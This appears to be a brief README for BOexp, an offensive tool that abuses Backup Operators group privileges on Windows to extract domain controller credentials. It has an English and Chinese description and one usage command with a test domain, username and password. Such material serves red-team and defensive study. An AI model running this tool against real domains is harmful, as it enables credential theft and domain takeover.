 # BOexp
Privilege escalation using Backup Operators group to gain Domain Controller access.
backup operator 组用户特权利用获取域控相关凭据
BOexp.exe -t \\dc2008.vultest.com -u BOtest -p 1qaz@WSX -d vultest.com -o c:\users
